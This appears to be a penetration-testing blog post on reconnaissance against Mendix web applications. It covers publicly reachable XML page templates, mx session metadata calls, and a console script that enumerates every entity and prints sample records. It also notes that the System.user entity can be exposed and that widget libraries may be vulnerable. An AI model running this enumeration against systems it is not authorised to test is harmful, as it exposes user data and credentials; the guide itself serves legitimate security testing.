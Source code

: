 ```yaml
---
title: Reconnaissance Guide for Mendix Applications 
date: 2025-10-28 00:00:00 +02:00
tags: [Info Leakage, recon]
layout: post
excerpt: Mendix is a low-code application development platform that enables rapid application development. However, like any web application framework, it comes with its own set of security considerations. This guide explores various penetration testing techniques specific to Mendix applications, focusing on client-side exploitation and metadata enumeration.
comments: true
thumbnail: japan.jpg
---
```




# Reconnaissance Guide for Mendix Applications 


## Introduction

Mendix is a low-code application development platform that enables rapid application development. However, like any web application framework, it comes with its own set of security considerations. This guide explores various penetration testing techniques specific to Mendix applications, focusing on client-side exploitation and metadata enumeration.

## Mendix XML Template Files

These files serve as templates for various forms within Mendix applications, including login pages and file upload interfaces. They contain valuable reconnaissance information such as form fields and occasionally user role definitions. Notably, these XML files are publicly accessible, making them excellent targets for dictionary-based enumeration attacks to discover commonly named forms. You can access them at: `http://localhost:8080/pages/
	
![](/img/Pastedimage20251028165800.png)
![](/img/Pastedimage20251028165747.png)
	
## mx javscript library
```
// View session metadata. Entity
mx.session.sessionData.metadata 
// Check available microflows
mx.session.sessionData.microflows 
// Examine object types 
mx.session.sessionData.metadata[2]['objectType']
//Enumeation
mx.session.sessionData.enumerations
```
**List all accessible Entities**

```javascript
//list only object that has content
const objects = mx.session.sessionData.metadata
let obj=null
let objwithContent=[]
function getObject(obj) {
    //console.log(`Getting the content of the first object of ${obj}`);
    var innerobj=obj
    mx.data.get({
        xpath: `//${obj}`,
        callback: function(obj) {
            // Check here if obj is not empty
            if (obj.length != 0) {
                let attr = obj[0]['jsonData']['attributes'];
                console.log(`%cSample data of ${innerobj}:`, 'background-color: green')
                for (const key in attr) {
                    if (attr.hasOwnProperty(key)) {
                        console.log(` ${key}: ${attr[key]['value']}`);
                    }
                }
                objwithContent.push(obj)
            } else {
                console.log(`object ${obj} is empty`);
            }
        }
    }); 
}

//loop to every  object
for (const key in objects){ 
	console.log(objects[key]['objectType'])
	obj =objects[key]['objectType']
	//console.log(obj)
	getObject(obj)
	}

//list all accessible entities
objwithContent.forEach(function(element) {
  console.log(element[0].jsonData.objectType);
//console.log(element[0].jsonData);
});


```



![](/img/Pastedimage20251028172328.png)
![](/img/Pastedimage20251028172958.png)

**In certain cases, guest or anonymous users may gain access to the `System.user` entity, which holds sensitive credentials such as usernames and passwords.**


## get_session action
 
  you can also send an HTTP post request with `get_session_data` action
to get valuable information about the mendix app such as constants, data type, and fields. Fields and Data type are useful for other vulnerability such SQL injection   
![](/img/Pastedimage20251028163226.png)

**HTTP Response**


![](/img/Pastedimage20251028163607.png)

![](/img/Pastedimage20251028163641.png)

## widget

You can list all widgets on the https://app/widgets/.* Sometimes these widgets contain a JS library that is vulnerable to CVEs

  ![](/img/Pastedimage20251028162615.png)
  
  ![](/img/Pastedimage20251028162826.png)
